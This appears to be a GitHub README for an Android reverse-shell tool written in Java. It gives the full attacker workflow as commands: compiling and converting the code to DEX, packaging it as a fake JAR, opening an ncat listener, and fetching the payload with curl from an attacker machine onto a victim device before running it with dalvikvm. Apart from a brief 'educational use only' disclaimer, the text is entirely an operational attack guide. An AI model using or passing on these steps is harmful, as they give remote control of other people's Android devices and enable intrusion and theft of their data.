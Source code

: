 # Pure Java Android Reverse Shell (with SSL Support)

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

UPDATE WITH SSL SUPPORT https://github.com/CalfCrusher/JavaAndroidReverseShell/tree/main/SSL

## On Attacker machine - Linux for example -
### (you need android sdk installed and build-tools also) 

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### Convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 AndroidReverseShell.class`

#### Create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`<br/>
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner.

## Todo

~~Support for SSL encryption~~

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

